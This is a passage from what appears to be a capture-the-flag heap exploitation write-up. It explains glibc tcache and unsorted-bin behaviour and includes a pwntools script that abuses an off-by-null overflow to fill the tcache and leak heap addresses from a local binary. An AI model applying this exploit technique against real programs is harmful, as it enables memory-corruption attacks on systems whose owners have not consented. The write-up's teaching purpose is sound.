 We have first what we saw earlier, it checks how the tcache is doing. Since the bin for 0x100 will be full (`tcache->counts[tc_idx] < mp_.tcache_count`) nothing will be done here. Next checks if the chunk has size in the range for fastbin, which it doesn't (for fastbin is `<= 0x80`), finally checks if it is mmapped, which isn't (we aren't allocating sizes so damned big to trigger an `mmap()`). So it performs a couple more of security checks, and merges the chunk with the contiguous ones it they are free. Finally, if the next contiguous chunk was **not** the top chunk, inserts the chunk into the unsorted bin.

Therefore, if now we were to free another 0x100 sized chunk —as long as the next one isn't top— it will be first placed into the unsorted bin (since it is in the range of smallbin and exceeds the size for fastbin). The unsorted bin is a double and circular linked list, hence this chunk will contain a couple of pointers to the libc that we can leak. But we can't allocate a 0x100 chunk because it would be taken from the tcache, and when freed just placed back into it; no, we need to repeat the same process one more time..., I know, I know, and I don't think this is going to be the last time we use that resource. Who would have thought that an off-by-null could be so powerful.
```python
from pwn import *

r = process("./binary")
deltat = .05

### Fill tcache bin for 0x100 ###
log.info("Filling tcache bin 0x100")
log.info("Allocating 0x100") # First one is for free
r.write(b"A" * (0x100 - 8) + b'\0'); sleep(deltat)
for i in range(6):
    log.info("Allocating 0x%03x" % (0x1f0 - (i * 0x10)))
    r.write(b"A" * (0x1f0 - (i * 0x10) - 8) + b'\0'); sleep(deltat)
log.info("Allocating 0x100 (overflowing)")
r.write(b"A" * (0x100 - 9) + b'\n' + b'\0'); sleep(deltat)
for i in range(5):
    log.info("Allocating 0x%03x (overflowing)" % (0x1f0 - (i * 0x10)))
    r.write(b"A" * (0x1f0 - (i * 0x10) - 9) + b'\n' + b'\0'); sleep(deltat)
# Last one doesn't need to be overflowed
log.info("Allocating 0x1a0")
r.write(b"A" * (0x1a0 - 8) + b"\0"); sleep(deltat)

### Leak heap ###
r.clean()
log.info("Allocating 0x100 (leaking)")
r.write(b"A" * (0x100 - 8) + b'\0'); sleep(deltat) # Pre-fill stack buffer
r.write(b"A"); sleep(deltat)
heap = int.from_bytes(r.read()[-6:], "little") - 0xa41
log.info("Heap : 0x%06x" % heap)

### Insert a chunk in unsorted ###
log.info("Allocating 0x20")
r.write(b"A" * (0x20 - 8) + b'\0'); sleep(deltat)
log.info("Allocating 0x110")
r.write(b"A" * (0x110 - 8) + b'\0'); sleep(deltat)
log.info("Allocating 0x20 (overflowing)")
r.write(b"A" * (0x20 - 9) + b'\n' + b'\0'); sleep(deltat)
log.info("Allocating 0x110")
r.write(b"A" * (0x110 - 8) + b'\0'); sleep(deltat)

r.interactive()
```
Two things:
First, we need to create a chunk previous to the one we are going to place into the unsorted bin because we need a new chunk to overflow from. This is because the topmost chunk right now (except the top chunk, obviously) is one with true size 0x1a0, but it is in the tcache bin for 0x100. So if we want to overflow it we need to send a string with length 0x1a0, but that won't give us that chunk because it is placed in the 0x100 bin!
